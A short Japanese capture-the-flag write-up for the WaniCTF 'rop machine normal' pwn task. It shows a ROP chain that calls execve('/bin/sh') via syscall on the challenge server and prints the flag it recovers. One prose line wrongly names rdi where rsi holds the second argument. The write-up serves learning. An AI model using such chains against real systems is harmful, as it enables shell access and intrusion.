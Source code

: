 # rop machine normal (202pt Easy)
# 問題文
`nc rop-normal.pwn.wanictf.org 9004`
## ヒント
- ropでexecve("/bin/sh", 0, 0)を実行して下さい。
- "/bin/sh"のアドレスは提供されています
- execveのsyscall番号は0x3bです。
- rop machineの使い方->wani-hackase/rop-machine

## 使用ツール例
- netcat (nc)

## gccのセキュリティ保護
- Partial RELocation ReadOnly (RELRO)
- Stack Smash Protection (SSP)有効
- No eXecute bit(NX)有効
- Position Independent Executable (PIE)無効

# やったこと

```
 nc rop-normal.pwn.wanictf.org 9004

"/bin/sh" address is 0x404070

[menu]
1. append hex value
2. append "pop rdi; ret" addr
3. append "pop rsi; ret" addr
4. append "pop rdx; ret" addr
5. append "pop rax; ret" addr
6. append "syscall; ret" addr
8. show menu (this one)
9. show rop_arena
0. execute rop
> 
```

スタックに命令を追加して最後に実行すれば良いっぽいです．

問題文から`execve("/bin/sh", 0, 0)`が実行できればいいことが分かります．

https://www.mztn.org/lxasm64/x86_x64_table.html
等を見ると，
- raxに0x3b (システムコール番号)
- rdiに"/bin/sh" (第一引数)
- rdiに0 (第二引数)
- rdxに0 (第三引数)

を指定した状態でsyscallを実行すれば`execve("/bin/sh", 0, 0)`が実行されるようです．

```
 nc rop-normal.pwn.wanictf.org 9004

"/bin/sh" address is 0x404070

...

> 0
     rop_arena
+--------------------+
| pop rax; ret       |<- rop start
+--------------------+
| 0x000000000000003b |
+--------------------+
| pop rdi; ret       |
+--------------------+
| 0x0000000000404070 |
+--------------------+
| pop rsi; ret       |
+--------------------+
| 0x0000000000000000 |
+--------------------+
| pop rdx; ret       |
+--------------------+
| 0x0000000000000000 |
+--------------------+
| syscall; ret       |
+--------------------+
ls
chall
flag.txt
redir.sh
cat flag.txt 
FLAG{now-you-can-call-any-system-calls-with-syscall}
```

上の用に設定して実行するとshellが得られました．

# フラグ
FLAG{now-you-can-call-any-system-calls-with-syscall}

# メモ
pwnは超初心者なので間違ってるところがあるかも．